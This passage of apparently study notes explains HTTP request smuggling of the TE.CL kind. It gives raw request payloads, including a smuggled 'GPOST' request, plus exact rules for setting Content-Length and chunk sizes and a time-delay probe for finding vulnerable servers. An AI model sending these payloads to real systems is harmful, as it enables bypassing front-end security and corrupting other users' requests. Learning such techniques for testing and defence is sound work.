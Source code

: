 The next request will then produce a 404 statuscode, indicating that the attack worked.

## TE.CL
**Front-End:    Transfer-Encoding**
**Back-End:    Content-Length**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

```
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
5a\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 12\r\n
\r\n
x\r\n
0\r\n
\r\n

```
It is important to get everything right:
* 1st Content-Length should point past the 5a before the GPOST
* 5a reflect the chunk length in hex, starting from GPOST up to 0
* 2nd Content-Length should point to the end of the whole request

#### Reconnaissance
Again a time delay is utilized, but this time from the backend which consideres the content length. Since the frontend system ommits the X, the backend receives a shorter content than expected and thus waits for the rest.
```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X

```
